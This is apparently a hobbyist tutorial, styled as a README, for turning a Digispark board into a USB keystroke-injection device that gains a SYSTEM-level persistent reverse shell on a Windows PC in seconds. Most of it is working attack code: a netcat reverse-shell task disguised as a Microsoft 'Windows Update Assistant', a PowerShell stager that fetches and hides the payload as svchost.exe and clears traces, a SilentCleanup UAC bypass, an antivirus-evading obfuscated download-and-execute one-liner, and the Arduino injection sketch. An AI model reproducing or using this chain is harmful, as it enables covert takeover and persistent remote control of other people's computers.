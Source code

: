 ## Gain control on a computer in 3 seconds

#### As seen on Mr.Robot (S04x10)

![Mr Robot hodling Digispark](https://cdn.discordapp.com/attachments/914907771063894059/926024143202295828/IMG_0022.png)


**S**o, I made a rubber ducky with a small arduino board called [digispark](https://www.amazon.in/dp/B07B8SS1VQ/ref=cm_sw_r_cp_api_glt_fabc_MHJ6HENHA71NN6VZK0DE). The original rubber duckies are pretty costly (for me anyway) [link here](https://shop.hak5.org/products/usb-rubber-ducky-deluxe). Sure they're fast and have more memory than digisparks, but making one our own will give us complete control of the board.We can configure the boot load times, make signals with on-board led etc.

## UAC bypass

UAC means 'User Account Control'. Yes, even if your computer has tight securities like when you try to install an app, the UAC dialogue box appears asking  a simple'Yes' or 'No'. We're going to bypass and go further.

![UAC prompt screen](https://cdn.discordapp.com/attachments/914907771063894059/925379076624113734/IMG_0014.jpg)

We'll also evade all major anti-virus applications using clever tricks.

## So how do we do this
Well, first of all you need to download netcat 1.12 [here](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip) and extract the **nc64.exe.** Once you got it extracted upload it to some file-hosting service of your choice, which provides **DIRECT LINK** (very important!!). I used **Discord**, it works like a charm and link doesn't expire. Just upload the file to discord, right click on it and select copy media link.

&#x200B;

Second, you need to make yourself an **.XML** file which you'll need later for Task Scheduler. I believe scheduled tasks are really good way to set up persistence. It means our hack will always run in background even when the system restarts or anything. Scheduled tasks are also good for escalating the file that it executes to **NT Authority\\SYSTEM** privileges, while remaining stealthy. 

I already did the work for you. This is what it should look like.


    <?xml version="1.0" encoding="UTF-16"?>
    <Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
      <RegistrationInfo>
    <Author>Microsoft Corporation</Author>
    <Description>This will ensure system stability in case of an unexpected update interruption.</Description>
      </RegistrationInfo>
      <Triggers>
    <LogonTrigger>
      <Repetition>
        <Interval>PT1M</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <Enabled>true</Enabled>
      <Delay>PT30S</Delay>
    </LogonTrigger>
      </Triggers>
      <Principals>
    <Principal id="Author">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
      </Principals>
      <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>true</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>7</Priority>
      </Settings>
      <Actions Context="Author">
    <Exec>
      <Command>%public%\audiosvc.exe</Command>
      <Arguments>(Your IP address without brackets) 4444 -e cmd.exe -d</Arguments>
    </Exec>
      </Actions>
    </TASK>



Just modify the arguments in the bottom with your **IP/PORT**. You can google how to find ip-address of your device.Once you got that done, save it and upload it for **DIRECT LINK**, just like you uploaded your previous file. 



&#x200B;

Now, that the boring setup part is over, we get to the actual code that's being executed to achieve this type of shell:

    cd $env:public
    $url1="YOUR_NC64_LINK"
    $url2="YOUR_XML_LINK"
    $path1="$env:public\svchost.exe"
    $path2="$env:public\x.xml"
    (new-object net.webclient).downloadfile($url1,$path1)
    (new-object net.webclient).downloadfile($url2,$path2)
    cmd /r 'reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" /va /f&reg add "HKCU\Environment" /v "windir" /d "%comspec% /r mode 18,1&cd %public%&schtasks /create /tn \"Windows Update Assistant\" /f /xml x.xml >nul&schtasks /run /tn \"Windows Update Assistant\" /i >nul&REM "&timeout /t 1&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul&timeout /t 1&reg delete "HKCU\Environment" /v "windir" /F&attrib +s +h svchost.exe&del /q x.xml'

## Whats happening?

We're creating a persistent reverse shell(more about reverse shell [here](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)).

First, it downloads both of your files via powershell, then it clears our Windows + R history to clear any traces of itself (if you're using  USB RubberDucky). Then it uses the UAC bypass technique i shared at the end of this post to create scheduled task called **Windows Update Assistant**, which is set to be executed to run with **NT Authority\\SYSTEM** privileges(high level privileges or access) in our **.XML** file. Then it marks our **nc64.exe** file as hidden system file, which is also now called **svchost.exe** and then it deletes our **.XML** file, since system doesn't need it anymore after task is created.

&#x200B;

Now you're probably thinking, this is all nice, but how the hell do we run this in one-line of code?

Very simple, by invoking expression called **DownloadString** in powershell like this:

    powershell -nop -w 1 -c "iex (new-object net.webclient).downloadstring('YOUR_PASTEBIN_LINK')"

But problem with this one-liner is, that it gets picked up by most Anti-viruses as "malicious activity". Therefore, we need to obfuscate(hide) it a bit:

    cmd.exe /c powershell -nop -w 1 -c "iex (.('ne'+'w-ob'+'ject') ('ne'+'t.webc'+'lient')).('do'+'wnloadstr'+'ing').invoke(('Y'+'OUR_'+'PASTEBIN'))"

And there it is, this one liner will get you persistent reverse shell which will check for itself every minute if it's running and if it's not, then it executes itself silently in the background.

&#x200B;

## The UAC bypass technique

Bypassing highest UAC level [Windows 8,10,11]

&#x200B;

It's done by adding temporary Environment variable **windir** into **HKCU\\Environment** registry path.

There's an auto-elevated task called **SilentCleanup** and it's located in: **%windir%\\system32\\cleanmgr.exe** We can easily abuse this and elevate any file with Administrator privileges without prompting UAC (even highest level).

So let's say I'm gonna set **windir** to: "**cmd /k REM** "

And forcefully run **SilentCleanup** task:

    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

**REM** will tell it to ignore everything after **%windir%** and treat it just as a NOTE. Therefore just executing cmd with admin privs.

If you want to try this for yourself, here's a little batch script I made to elevate powershell:

    @echo off
    mode 18,1
    color FE
    reg add "HKCU\Environment" /v "windir" /d "cmd /c start powershell&REM " >nul
    timeout /t 2 >nul
    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul
    timeout /t 3 >nul
    reg delete "HKCU\Environment" /v "windir" /F

&#x200B;

## Wait i hacked my own system

You may be testing this on your own system. If you want to remove the reverse shell, copy the following code into a batch file( files ending with .bat extension on windows) and run it with administrator privilages.(right click on the bat file and click run-as-administrator).


    @echo off
    schtasks /end /tn "Windows Update Assistant" >nul
    schtasks /delete /tn "Windows Update Assistant" /f
    cd %public%
    attrib -s -h svchost.exe
    del /q svchost.exe
    timeout /t 1 >nul



&#x200B;


## Rubber ducky code

Digispark works with Arduino IDE, you can learn writing Arduino scripts on google. It's pretty simple and easy. You can learn how to setup Arduino IDE for digispark [here](https://maker.pro/arduino/projects/how-to-build-a-rubber-ducky-usb-with-arduino-using-a-digispark-module)

    #include "DigiKeyboard.h"

    void setup() {}

    void loop() {
	DigiKeyboard.sendKeyStroke(0);
	DigiKeyboard.delay(3000);
	DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT,KEY_R);
	DigiKeyboard.delay(500);
	DigiKeyboard.print("[code]");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

Above code is simple and Works on any PC. Plug-in your digispark to PC and see the magic happen in 3 seconds.